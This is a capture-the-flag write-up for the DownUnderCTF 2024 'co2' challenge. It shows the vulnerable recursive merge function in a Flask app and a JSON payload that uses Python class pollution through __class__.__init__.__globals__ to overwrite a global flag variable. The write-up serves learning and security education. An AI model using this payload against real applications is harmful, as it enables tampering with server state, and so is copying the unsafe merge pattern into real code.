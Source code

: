 ```yaml
---
title: "co2"
description: "A group of students who don't like to do things the \"conventional\" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application."
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "rev"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/downunderctf2024#co2)

We are given the source code which is in Python. The website has a few functions involving account registration, profile viewing, blog posts and a dashboard. But one particular function is of interest, the feedback section.

The `/get_flag` endpoint checks a `flag` env variable to get the flag:
```python
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

Looking at the `/save_feedback` endpoints function we can see this:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


...


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True
```

Reading up on how the merge works, it turns out Python can have Prototype Pollution (I had my suspects from the challenge name also, good hint lads).

I find a [HackTricks Page](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) on the topic (and learn about its absurdity...)

![pythonproto](images/24-downunder/pythonprotomeme.png)

> Credits to [abdulrah33m](https://blog.abdulrah33m.com/prototype-pollution-in-python/) for this excellent image

Reading the "Polluting other glasses and global vars through `globals`" section gives us a good idea of a payload:
```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```

The normal post request looks like this:
```json
{"title":"title","content":"content","rating":"10","referred":"a"}
```

I then develop our own payload from how the normal post request looks.
```json
{"title":"title","content":"content","rating":"10","referred":"a","__class__": {"__init__":{"__globals__":{"flag":"true"}}}}
```

`/get_flag` now returns the flag, as we have modified the `flag` value to be true.

Flag: `DUCTF{_cl455_p0lluti0n_ftw_}`
